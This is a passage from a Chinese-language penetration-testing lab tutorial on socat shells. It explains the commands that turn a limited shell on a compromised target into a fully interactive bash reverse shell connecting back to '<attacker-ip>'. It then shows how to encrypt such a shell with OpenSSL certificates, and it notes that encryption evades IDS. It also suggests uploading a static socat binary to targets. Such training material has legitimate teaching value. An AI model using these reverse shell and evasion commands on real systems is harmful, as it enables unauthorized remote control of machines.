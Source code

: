 ```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0 
```

让我们把这条命令分解成两部分。像往常一样，我们将两点连接在一起。在这种情况下，这些点是一个监听端口和一个文件。具体来说，我们将当前 TTY 作为文件传递，并将 echo 设置为零。这大约相当于使用 netcat shell 时使用的 Ctrl + Z, `stty raw -echo;fg` 技巧

第一个侦听器可以连接到任何有效负载；但是，这个特殊的侦听器必须使用非常具体的 socat 命令来激活。这意味着目标必须安装 socat。然而大多数机器默认情况下没有安装 socat，但我们可以上传[预编译的 socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) 二进制文件到目标上，然后就可以正常执行。
特殊命令如下： 

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

以上命令稍显复杂，所以让我们分解一下。 第一个部分很简单——我们要连接到我们自己机器上运行的侦听器。命令的第二部分使用 `EXEC:"bash -li"` 创建一个交互式 bash 会话。我们还传递参数：pty、stderr、sigint、setsid 和 sane： 
- pty 在目标上分配一个伪终端——稳定过程的一部分 
- stderr 确保任何错误消息都显示在 shell 中（通常是非交互式 shell 的问题） 
- sigint 将任何 Ctrl + C 命令传递到子进程中，允许我们在 shell 中终止命令 
- setsid 在新会话中创建进程 
- sane 稳定终端，试图 “正常化” 它。 


要接受的内容很多，所以让我们看看它的实际应用。 

与往常一样，在左侧我们有一个在本地攻击机器上运行的侦听器，在右侧我们有一个受感染目标的模拟，使用非交互式 shell 运行。

![](https://i.imgur.com/yXPuINO.png)

使用非交互式 netcat shell，我们执行特殊的 socat 命令，并在左侧的 socat 侦听器上接收到一个完全交互式的 bash shell：

请注意，socat shell 是完全交互式的，允许我们使用交互式命令，例如 SSH。然后可以通过设置 stty 值来进一步改进，如上一个任务中所示，这将让我们使用 Vim 或 Nano 等文本编辑器。 如果在任何时候 socat shell 无法正常工作，那么通过在命令中添加 `-d -d` 来增加详细程度是非常值得的。这对于实验目的非常有用，但对于一般用途通常不是必需的。

**回答以下问题：**
1. 我们如何让 socat 监听 TCP 端口 8080？

### 2.7 加密的 Socat Shells
socat 的众多优点之一是它能够创建加密的 shell —— 反向和正向 shell 都可加密。我们为什么要这样做？除非您拥有解密密钥，否则无法监视加密的 shell，因此通常能够绕过 IDS。

我们在上一个任务中介绍了如何创建基本的 shell，因此这里不再介绍语法。一句话足以说明如何使用加密shell：将原命令中的 `TCP` 部分换成 `OPENSSL` 即可。我们将在任务结束时介绍几个示例，但首先让我们谈谈证书。

我们首先需要生成证书才能使用加密的 shell。这在我们的攻击机器上最容易做到：
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt 
```
此命令创建一个 2048 位 RSA 密钥和匹配的证书文件，自签名，有效期不到一年。当您运行此命令时，它会要求您填写有关证书的信息。这可以留空，或随机填充。 然后我们需要将两个创建的文件合并到一个 `.pem` 文件中： 

`cat shell.key shell.crt > shell.pem`

现在，当我们设置我们的反向 shell 侦听器时，我们使用： 

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 
```
    